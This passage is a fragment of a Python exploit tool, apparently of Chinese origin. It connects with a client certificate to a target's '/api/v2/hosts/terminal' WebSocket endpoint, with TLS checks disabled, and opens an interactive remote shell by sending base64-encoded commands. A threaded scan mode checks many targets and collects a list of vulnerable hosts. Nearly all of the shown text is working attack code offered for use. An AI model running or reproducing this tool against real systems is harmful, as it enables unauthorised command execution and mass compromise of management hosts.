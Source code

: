 ```python
        try:
            raw_message = ws.recv()
            if not raw_message: continue
            response_json = json.loads(raw_message)
            if isinstance(response_json, dict) and "data" in response_json and response_json["data"]:
                decoded_bytes = base64.b64decode(response_json["data"])
                output_str = decoded_bytes.decode('utf-8', errors='ignore')
                sys.stdout.write(output_str)
                sys.stdout.flush()
        except (websocket.WebSocketConnectionClosedException, ConnectionResetError):
            if exploit_running: print("\n[*] 连接意外关闭。"); exploit_running = False
            break
        except Exception: pass

def run_exploit_mode(target, cert_path, key_path, proxy_opts):
    """执行单目标利用。"""
    global exploit_running
    print("[*] 正在尝试获取交互式 Shell...")
    ws_url = f"wss://{target}/api/v2/hosts/terminal"
    try:
        ssl_context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
        ssl_context.load_cert_chain(cert_path, key_path)
        ssl_context.check_hostname = False
        ssl_context.verify_mode = ssl.CERT_NONE
        ws = websocket.create_connection(ws_url, sslopt={"context": ssl_context}, **proxy_opts)
        print("[+] Shell 获取成功！")
        print("[*] 输入 'exit' 或按下 Ctrl+C 退出。")
        print("---")

        recv_th = threading.Thread(target=receive_thread, args=(ws,))
        recv_th.daemon = True
        recv_th.start()
        
        while exploit_running:
            try:
                cmd = input()
                if cmd.strip().lower() == 'exit': break
                b64_cmd = base64.b64encode((cmd + '\n').encode('utf-8')).decode('utf-8')
                ws.send(json.dumps({"type": "cmd", "data": b64_cmd}))
            except EOFError: break
        
        exploit_running = False
        ws.close()
    except KeyboardInterrupt:
        print("\n[*] 用户中断，正在关闭 Shell...")
    except Exception as e:
        print(f"\n[-] 获取 Shell 时发生错误: {e}")
    finally:
        exploit_running = False

def run_scan_mode(targets, cert_path, key_path, proxy_dict, proxy_opts, threads, output_file):
    """执行批量扫描。"""
    print(f"[*] 开始对 {len(targets)} 个目标进行检测，使用 {threads} 个线程...")
    with ThreadPoolExecutor(max_workers=threads) as executor:
        future_to_target = {executor.submit(check_target, t, cert_path, key_path, proxy_dict, proxy_opts): t for t in targets}
        for future in as_completed(future_to_target):
            target, is_vulnerable, message = future.result()
            with print_lock:
                if is_vulnerable:
                    print(f"[+] {target:<21} - {message}")
                    vulnerable_hosts.append(target)
```